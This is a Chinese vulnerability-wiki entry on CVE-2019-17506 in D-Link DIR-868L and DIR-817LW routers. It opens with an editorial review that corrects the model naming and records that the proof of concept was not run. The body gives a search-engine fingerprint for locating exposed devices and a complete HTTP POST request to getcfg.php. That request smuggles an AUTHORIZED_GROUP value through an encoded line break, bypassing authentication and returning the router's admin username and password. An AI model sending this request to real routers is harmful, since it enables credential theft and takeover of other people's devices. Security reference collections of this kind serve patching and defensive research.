


# D-Link DIR-868L / DIR-817LW getcfg.php 账号信息读取（CVE-2019-17506）

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：D-Link DIR路由器（标题645、正文868L/817LW）
- 本文讨论：CVE-2019-17506
- 版本、权限与配置前提：正文868L B1-2.03/817LW A1-1.04；未授权getcfg.php参数污染
- 资料类型：短PoC；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 标题DIR645与正文/指纹DIR868L不一致
- 影响范围泛化整个DIR系列，无645适用证据
- 认证绕过payload与描述AUTHORIZED_GROUP编码形式不同，应解释；无原始公告
- 已落实的文本修订：“# D-Link Dir-645 getcfg.php 账号密码泄露漏洞 CVE-2019-17506”改为“# D-Link DIR-868L / DIR-817LW getcfg.php 账号信息读取（CVE-2019-17506）”；“D-Link Dir 系列多个版本”改为“原文明确列出的测试范围：DIR-868L B1-2.03、DIR-817LW A1-1.04；DIR-645及其他DIR型号适用性待核”；HTTP 报文围栏改为 http；标题与正文证据对齐。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- 645归属、各固件与参数解析待核验
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

D-Link DIR-868L B1-2.03和DIR-817LW A1-1.04路由器上有一些不需要身份验证的Web界面。攻击者可以通过SERVICES的DEVICE.ACCOUNT值以及AUTHORIZED_GROUP = 1％0a来获取getcfg.php的路由器的用户名和密码（以及其他信息）。这可用于远程控制路由器

## 漏洞影响

```
原文明确列出的测试范围：DIR-868L B1-2.03、DIR-817LW A1-1.04；DIR-645及其他DIR型号适用性待核
```

## 网络测绘

```
app="D_Link-DIR-868L"
```

## 漏洞复现

登录页面如下




发送下请求包

```http
POST /getcfg.php HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Content-Length: 61

SERVICES=DEVICE.ACCOUNT&attack=ture%0D%0AAUTHORIZED_GROUP%3D1
```




获取到路由器账号密码即可登录后台


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
